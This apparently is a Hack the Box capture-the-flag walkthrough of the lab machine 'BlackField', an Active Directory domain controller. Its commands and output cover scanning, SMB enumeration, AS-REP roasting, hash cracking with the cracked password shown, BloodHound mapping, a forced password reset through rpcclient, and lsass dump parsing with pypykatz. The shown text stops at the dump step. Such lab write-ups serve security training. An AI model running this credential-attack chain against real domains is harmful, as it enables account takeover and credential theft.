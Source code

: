 # Hack the Box - BlackField


```CSS
Machine IP: 10.10.10.192
```

```CSS
▶ nmap -Pn -sS -O -p- 10.10.10.192 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.10.192
Host is up (0.18s latency).
Not shown: 65527 filtered tcp ports (no-response)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
389/tcp  open  ldap
445/tcp  open  microsoft-ds
593/tcp  open  http-rpc-epmap
3268/tcp open  globalcatLDAP
5985/tcp open  wsman
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 135.41 seconds
```

```CSS
▶ nmap -Pn -sC -sV -p 53,88,135,389,445,593,3268,5985 10.10.10.192 -oN services.nmap

Nmap scan report for 10.10.10.192
Host is up (0.18s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-05-20 13:56:42Z)
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6h59m34s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-05-20T13:57:07
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 71.98 seconds
```

---

## SMB Enumeration
  - Anonymous and Guest Enumeration 
```
▶ smbmap -H 10.10.10.192 -u guest
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ee481776-6d35-4c5a-a235-099ce99ed714)

SMB shares reveal two non-default shares named `forensic` and `profiles$`. The share `forensic` is not accessible however read-only access is allowed on the `profiles$` share. 

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/9a1f88cc-ce6c-4ee0-85b8-97579f3e5553)

---

## Kerberos
  - Kerberos Pre-Authentication Attack (ASREPRoast)
  - Craft a list of users to spray the users
```CSS
▶ smbclient -N \\\\10.10.10.192\\profiles$ -c ls | awk '{ print $1 }' | tee users.txt
```
```CSS
▶ impacket-GetNPUsers blackfield.local/ -no-pass -usersfile users.txt -dc-ip 10.10.10.192 | grep -v 'KDC_ERR_C_PRINCIPAL_UNKNOWN'
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/99b7e598-7179-457a-84ab-5ff137a3ed46)

---

## Hash Crack (krb5asrep)
```CSS
▶ john krb.hash --format=krb5asrep
```

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/1bd2c405-2c01-48c3-aebe-e3b1b97e88c2)

```CSS
#00^BlackKnight  ($krb5asrep$23$support@BLACKFIELD.LOCAL)
```

---

## BloodHound
```CSS
▶ bloodhound-python --username support --password '#00^BlackKnight' --domain blackfield.local --nameserver 10.10.10.192 --collectionmethod all
```
```CSS
▶ neo4j console
```
```CSS
▶ bloodhound --no-sandbox
```
Upload files generated by `bloodhound.py` to BloodHound console.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/67572013-e505-4437-8921-284955cd2e5c)

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/f5d0f98a-36f2-4e82-a700-49d3bdead4ee)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/315fb65d-46bb-4905-96c8-7d6e7eddd6ab)

---

## Force Change Password
```CSS
▶ rpcclient 10.10.10.192 -U 'support'
Password for [WORKGROUP\support]:
rpcclient $> setuserinfo2 audit2020 23 Password123
rpcclient $> exit
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/4b07f036-6c38-40f5-8b0c-581a8047a5f5)
```CSS
▶ crackmapexec smb 10.10.10.192 -u audit2020 -p Password123
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/94bac7e7-3c7c-4326-8916-293ee0af15d5)

---

```CSS
▶ smbclient \\\\10.10.10.192\\forensic -U "audit2020"
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/3cd76e5d-a326-45c4-8d63-fd9a2346b84f)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/9db2bdf4-995e-46ce-b788-2e8b03bc70cc)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/b748c159-0191-42b0-963f-9d4adc71de12)

---

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/6b970a7a-aa71-4612-8fe8-9f64f037600f)


## Dump File (.DMP)
```CSS
▶ pypykatz lsa minidump lsass.DMP
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/e6eed677-d497-4777-be99-34b63bea7628)
